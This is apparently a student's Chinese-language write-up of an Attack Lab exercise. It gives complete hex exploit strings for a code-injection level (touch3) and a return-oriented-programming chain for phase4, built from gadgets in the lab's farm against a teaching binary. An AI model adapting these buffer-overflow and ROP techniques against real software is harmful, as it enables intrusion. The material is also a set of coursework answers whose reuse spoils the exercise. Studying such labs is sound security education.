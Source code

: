  这里不同于`touch2`的地方是，`touch3`是传址，需要明确的存在栈上的物理地址，而上一题只需要对寄存器进行赋值即可，所以这道题相当于上一题的进阶版，思路一样我不细说了。注意三点：
 1. 在`touch3`的范围内要访问一个地址，所以如果你之前在`getbuf`范围内的栈内存值了，在`touch3`里是无法访问的，所以你需要在更早的栈内存值，以便`%rsp`回退的时候，回退到你存值地址之后。所以你要在`getbuf`返回地址的后面属于`test`范围的栈内存值。
 2. 由于 `*sval`的值是`cookie`，但是`strcmp`比较时会比较`ascii`值，数字的`ascii`值不等于其本身，所以要将`cookie`转化为`ascii`码。
 3. 你在下面可能会注意到我的答案最后一行在写`cookie`时，本来是8个字节，我在8个字节后面写了00，是因为字符串比较遇到`null`后停止。
 所以答案为：
 ```
	48 c7 c7 a8 dc 61 55
	68 fa 18 40 00
	c3 
	00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00
	78 dc 61 55 00 00 00 00
	35 39 62 39 39 37 66 61 00
 ```
### rtarget:
Return-Oriented Programming
 #### phase4
本题是重复实现phase2，只不过程序运用了对抗缓冲区攻击的一种方法--栈随机化，同一位置的%rsp值，在不同次运行时结果不一样。
```
0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
7:   68 ec 17 40 00          push   $0x4017ec
c:   c3                      ret    
```
但是在farm中找不到对应的机器码，这是我遇到的第一个难点：如何寻找代替的汇编代码，由于实现此功能的方式太多了，所以在寻找合适的地方断开时就不知所措了，我是根据文档记住了mov的关键词，`48 89`以及`nop`的关键词`90`可以在前几个farm中快速定位到可疑的断句点。然后进行猜测。得出结论：
```Assembly
	00000000004019a0 <addval_273>:
  	4019a0:	8d 87 48 89 c7 c3    	lea    	-0x3c3876b8(%rdi),%eax
  	4019a6:	c3                   	ret    
```
根据查表，`48 89 c7`指`movq %rax, %rdi`，与`pop %rax`相结合就可以凑成攻击链。`pop`的是`58+`的所以在前几个`gadget`中最适合的就是：
```Assembly
	00000000004019ca <getval_280>:
  	4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  	4019cf:	c3                   	ret    
```
所以就凑成了，“先溢出更改返回地址->在溢出`push %rax`值（虽然没有这个命令但是直接把值埋下去效果一样）->埋下`pop`的地址->埋下`pop`返回后的跳转地址”；的攻击链。
所以答案为：
```Assembly
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00 
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
	ab 19 40 00 00 00 00 00
	fa 97 b9 59 00 00 00 00
	a2 19 40 00 00 00 00 00
	ec 17 40 00 00 00 00 00
```
##### 疑惑点：
1. 一开始我是在前40个字节中填入了我的攻击链代码，但是似乎没用，或许是运行过跳转代码后，即`ret`后无法访问更改后的`%rsp`之前的值了。这一点需要好好想想。
